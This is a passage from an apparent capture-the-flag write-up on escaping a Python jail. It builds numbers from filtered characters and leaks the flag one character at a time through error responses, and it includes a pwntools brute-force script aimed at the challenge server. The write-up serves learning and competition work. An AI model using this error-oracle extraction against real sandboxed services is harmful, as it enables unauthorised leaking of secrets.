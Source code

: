 
## Piecing together the flag
How do we extract (more meaningful) information about the flag using the errors? Well, we can access the flag one character at a time using `_[number]` for some number. We can't directly use numbers though, so we'll have to resort
to type coersion again. We can use previously learned information about the flag (namely, that it's equal to itself) to write `1` as `_==_`. Then we can just do `1+1+1+1...` to get any number we want, right?

Almost.

If we expand out those 1s, we get `_==_+_==_+...`. And `+` has higher precedence than `==`, so the expression won't evaluate the way we want to. And we can't use parentheses to fix the ordering.

We can solve this issue with more lists. Specifically, `[_==_][_!=_]` is the same as `[True][False]` which is the same as `True`, but now since everything is wrapped in brackets we can compose it with `+` without worrying about
precedence.

With this, we can now index into the flag with `_[[_==_][_!=_]+[_==_][_!=_]+[_==_][_!=_]+...]` to get any character of the flag. From there, we can compare it with any character except the censored ones. By using the comparison
as the index for a list of length 1, we will get an error only if the comparison is `True`.

Let's put this idea into code:

```python
from pwn import *

io = remote('amt.rs', 31672)

true_expr = '[_==_][_!=_]'
true_expr_plus = true_expr + '+'

for n in range(150):
    for c in 'qwryuopasdfghjkzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_':
        payload = (f"[_][_[[{(true_expr+'+')*n}[_==_][_!=_]][_!=_]]=='{c}']")
        io.sendlineafter(b'Give code: ', payload.encode())
        nl = io.recv()
        io.unrecv(nl)
        if b'zzz' in nl:
            print(c,end='')
            break
    else:
        print(' ', end='')
```

(this code skips the first character of the flag, but we already know it's 'a' so we don't have to worry).

Let's run this code: 

```
ma  ursCTF   _     _      _
```
